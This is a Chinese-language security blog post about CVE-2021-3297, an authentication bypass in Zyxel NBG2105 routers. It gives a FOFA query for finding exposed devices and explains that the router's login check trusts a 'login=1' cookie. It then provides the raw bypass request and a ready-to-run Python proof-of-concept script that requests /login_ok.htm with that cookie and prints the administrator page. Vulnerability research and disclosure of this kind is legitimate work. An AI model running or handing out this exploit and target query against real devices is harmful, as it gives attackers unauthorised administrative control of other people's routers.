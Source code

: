 #  Zyxel-NBG2105-身份验证绕过-CVE-2021-3297   
原创 骇客安全  骇客安全   2025-04-13 06:19  
  
# Zyxel-NBG2105-身份验证绕过-CVE-2021-3297  
# Zyxel NBG2105 身份验证绕过 CVE-2021-3297  
## 漏洞描述  
  
Zyxel NBG2105 存在身份验证绕过，攻击者通过更改 login参数可用实现后台登陆  
## 漏洞影响  
```
Zyxel NBG2105
```  
## FOFA  
```
app="ZyXEL-NBG2105"
```  
## 漏洞复现  
  
登录页面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M1aGCjCVZgjxNUwJNGyyvlLstvkcBibRricCN5NRicXA8xPgG9qP8jLxwhVFDCcY2oamIRCUcjmLfbg/640?wx_fmt=png&from=appmsg "null")  
  
其中前端文件 **/js/util_gw.js**  
 存在前端对 Cookie login参数的校验  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M1aGCjCVZgjxNUwJNGyyvluk0kbOYDBsNgMX1piaE7kicCjMibicTic8N91KynafJR45tEIDtbBWKpKPA/640?wx_fmt=png&from=appmsg "null")  
  
可以看到检测到 Cookie中的 **login=1**  
 则跳转 home.html  
```
function setCookie() //login_ok.htm use
{
    document.cookie="login=1";
    MM_goToURL('parent', 'home.htm');
}
```  
  
请求如下则会以管理员身份跳转到 **home.htm页面**  
```
http://xxx.xxx.xxx.xxx/login_ok.htm

Cookie: login=1;
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991M1aGCjCVZgjxNUwJNGyyvlOjWH4PdYcxj2okgSEcyI6TLHCkfJcHMOpO7bTKBB4rN5LLicNQ2v85w/640?wx_fmt=png&from=appmsg "null")  
## 漏洞POC  
```
# python3
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning


def poc(url):
    exp = url + "/login_ok.htm"

    header = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cookie":"login=1",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=exp, headers=header, verify=False,timeout=10)
        #print(response.text)
        if response.status_code == 200 and "GMT" in response.text:
            print(exp + " 存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
            print("数据信息如下：")
            print(response.text)
        else:
            print(exp + " 不存在Zyxel NBG2105 身份验证绕过 CVE-2021-3297漏洞！！！")
    except Exception as e:
        print(exp + "请求失败！！")


def main():
    url = str(input("请输入目标url："))
    poc(url)


if __name__ == "__main__":
    main()
```  
  
##   
  
